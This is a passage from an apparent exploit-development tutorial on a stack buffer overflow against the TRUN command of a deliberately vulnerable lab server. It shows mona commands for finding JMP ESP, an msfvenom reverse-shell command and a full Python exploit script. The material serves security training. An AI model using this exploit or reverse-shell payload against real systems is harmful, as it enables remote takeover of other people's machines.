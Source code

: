 ### Mona Configuration
1. Place mona.py in Immunity Debugger's PyCommands
2. Check modules: `!mona modules`
3. Find JMP ESP:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
   nasm > JMP ESP
   00000000 FFE4
   ```
4. Search in mona:
   ```
   !mona find -s "\xff\xe4" -m essfunc.dll
   ```

## Step 7: Generating Shellcode

### MSFvenom Command
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

### Final Exploit
```python
#!/usr/bin/python
import sys, socket

overflow = "A" * 2003
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
shellcode = ("<generated_shellcode>")

buffer = overflow + retn + padding + shellcode

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.105',9999))
    s.send(('TRUN /.:/' + buffer))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

## Best Practices

1. **Pre-Exploitation**
   - Back up target system
   - Document initial state
   - Test in isolated environment

2. **During Exploitation**
   - Take detailed notes
   - Verify crashes consistently
   - Test multiple return addresses
